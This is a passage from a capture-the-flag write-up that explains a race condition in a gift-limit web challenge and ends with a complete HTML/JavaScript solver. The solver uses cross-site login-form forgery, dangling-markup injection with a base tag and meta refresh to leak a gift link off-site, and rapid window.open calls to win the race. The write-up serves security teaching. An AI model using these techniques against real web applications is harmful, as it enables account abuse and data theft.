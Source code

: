 
On page load, it will make a call to `/api/info`, and will immediately try to call `set(0)`. This should have also been a hint, because *technically* if the default value of the limit was 0, there would be no need to set it to 0.

So we can try to do a race condition, before the admin can load its own profile and set the actual gift limit to 0, we want to redirect to our server with the gift link.

### Game plan
Now the path to exploit is roughly clear

1. Make the admin create multiple `/create/Infinity` gifts
2. Before the page loads `/api/info` and sets the gift limit to 0, send a request containing the gift link to our server using dangling markup

> To help with the race condition, we can insert a `<base>` tag which will cause the `/api/info` request to fail because it modifies the base url with its `href` attribute. 

3. Claim on any user and read the flag

### Solver

```html
<form id="form" action="https://gift.mc.ax/api/login" method="POST" enctype="text/plain">
    <input id="ip" name='' value='"}' />
</form>

<script>
    const url = new URL(location.href);
    url.searchParams.append("rand", String(Math.random()));
    const dangleMarkup = `<base href="https://abc.com"><meta http-equiv="refresh" content="0; url=${url.toString()}`
    if (url.searchParams.has("ready")) {
        let html =  JSON.stringify({name: dangleMarkup});
        let name = html.substring(0, html.length - 2);
        document.getElementById("ip").name = name;
        document.getElementById("form").submit();
    } else {
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open(`${location.href}?ready=true`);
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
        window.open("https://gift.mc.ax/create/Infinity");
    }
</script>
```
